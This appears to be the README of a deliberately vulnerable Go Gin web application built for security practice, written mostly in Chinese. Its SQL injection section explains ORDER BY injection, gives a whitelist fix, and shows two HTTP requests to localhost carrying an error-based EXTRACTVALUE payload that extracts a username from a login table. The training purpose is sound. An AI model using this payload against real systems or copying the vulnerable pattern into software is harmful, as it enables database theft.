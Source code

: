 # Go Gin vulnerability Example 

An example of gin contains many useful vul

一个go写的WEB漏洞靶场，实际自己写一下，加固一下知识

GIN框架 整个web框架是go-gin-Example 上面改的，没有前端框架，只有一个swagger，直接发包吧






## 0x01 sqli

实际中最常见的一种编码问题 Order by 之后存在列和表的的时候，一般采用拼接的情况出现sql注入

由于表/列名无法使用参数化查询，所以推荐使用白名单或转义操作
````
db.Order(xxxx).First(&user)
````
// 对于列名的修复，稳妥的是白名单
````
validCols := map[string]bool{"col1": true, "col2":true}

if _, ok := validCols[xxxx]; !ok {
fmt.Println("illegal column")
return
}
db.Order(xxxx)
````


````
POST /sql/login HTTP/1.1
Host: 127.0.0.1:8000
User-Agent: Mozilla/5.0 (Macintosh; Intel Mac OS X 10.15; rv:103.0) Gecko/20100101 Firefox/103.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,*/*;q=0.8
Accept-Language: zh-CN,zh;q=0.8,zh-TW;q=0.7,zh-HK;q=0.5,en-US;q=0.3,en;q=0.2
Accept-Encoding: gzip, deflate
Connection: close
Upgrade-Insecure-Requests: 1
Sec-Fetch-Dest: document
Sec-Fetch-Mode: navigate
Sec-Fetch-Site: none
Sec-Fetch-User: ?1
Content-Type: application/x-www-form-urlencoded
Content-Length: 106

user=user&password=123456 AND EXTRACTVALUE(9509,CONCAT(0x5c,(SELECT user from blog.blog_login LIMIT 0,1)))
```

白名单修复后
````
POST /sql/loginSafe HTTP/1.1
Host: 127.0.0.1:8000
User-Agent: Mozilla/5.0 (Macintosh; Intel Mac OS X 10.15; rv:103.0) Gecko/20100101 Firefox/103.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,*/*;q=0.8
Accept-Language: zh-CN,zh;q=0.8,zh-TW;q=0.7,zh-HK;q=0.5,en-US;q=0.3,en;q=0.2
Accept-Encoding: gzip, deflate
Connection: close
Upgrade-Insecure-Requests: 1
Sec-Fetch-Dest: document
Sec-Fetch-Mode: navigate
Sec-Fetch-Site: none
Sec-Fetch-User: ?1
Content-Type: application/x-www-form-urlencoded
Content-Length: 106

user=user&password=123456 AND EXTRACTVALUE(9509,CONCAT(0x5c,(SELECT user from blog.blog_login LIMIT 0,1)))
```
